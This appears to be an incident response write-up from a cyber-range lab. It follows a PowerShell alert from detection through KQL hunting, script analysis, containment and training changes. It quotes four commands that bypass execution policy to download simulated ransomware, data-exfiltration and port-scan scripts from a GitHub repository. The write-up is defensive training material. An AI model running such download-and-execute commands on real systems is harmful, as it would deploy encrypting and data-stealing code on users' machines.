 # Incident Response Notes

### Detection and Analysis

* The incident **“J - PowerShell Suspicious Web Request”** was triggered on a single device (`windows-target-1`) by one user.
* During the incident, **four different PowerShell scripts** were downloaded and executed via separate commands:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

* Upon contacting the user, they reported attempting to install free software but experienced only a black screen with no further visible activity.

* Further investigation using **Microsoft Defender for Endpoint** confirmed execution of the scripts. The following KQL query was used to verify the PowerShell activity:

```kql
let TargetHostname = "windows-target-1"; 
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
DeviceProcessEvents
| where DeviceName == TargetHostname 
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

* The scripts were forwarded to the malware reverse engineering team, who summarized their functionality as follows:

  * **pwncrypt.ps1**: Simulates ransomware by creating fake sensitive files, encrypting them with AES, and placing ransom notes on a user’s Desktop, including logging and cleanup.

  * **exfiltratedata.ps1**: Simulates data exfiltration by generating fake employee data, compressing it, uploading to Azure Blob Storage, and logging all steps.

  * **portscan.ps1**: Performs sequential ping sweeps and port scans on a subnet, logging open/closed status of common ports for live hosts.

  * **eicar.ps1**: Generates the standard EICAR antivirus test file to simulate malware detection events.

---

### Containment, Eradication, and Recovery

* The affected machine was immediately isolated.
* A full antivirus scan was conducted using Microsoft Defender for Endpoint.
* After the scan returned clean, the machine was removed from isolation and restored to normal operation.

---

### Post-Incident Activities

* The user involved completed a cybersecurity awareness training session.
* The organization upgraded its Cyber Awareness training package (KnowBe4) and increased the frequency of mandatory training for all employees.
* Initiated implementation of a new policy restricting PowerShell usage to essential personnel only.
